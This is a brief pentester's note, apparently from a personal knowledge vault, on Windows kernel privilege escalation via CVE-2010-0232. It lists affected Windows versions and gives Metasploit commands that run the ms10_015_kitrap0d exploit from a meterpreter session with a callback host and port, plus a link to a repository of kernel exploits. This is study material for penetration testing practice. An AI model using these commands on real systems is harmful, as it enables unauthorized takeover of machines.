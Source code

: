 -- -
Exploits run against the kernel.
[[Dark Arts/Privesc/Windows/Enumeration/Kernel Level Exploits|Enum]]
#### CVE-2010-0232
#cve-2010-0232 [Disclosure](https://seclists.org/fulldisclosure/2010/Jan/341)
Affects older versions of Windows:
- Windows 2000
- Windows XP
- Windows Server 2003
- Windows Vista
- Windows Server 2008
- Windows 7
```bash
# from meterpreter shell
bg # or background or ctrl+z
use exploit/windows/local/ms10_015_kitrap0d
set session <session id> 
set lhost tun0 # or attack ip
set lport 5555 # irrelevant what you set to
run
```
#### Resources
- [Repo of Exploits](https://github.com/SecWiki/windows-kernel-exploits)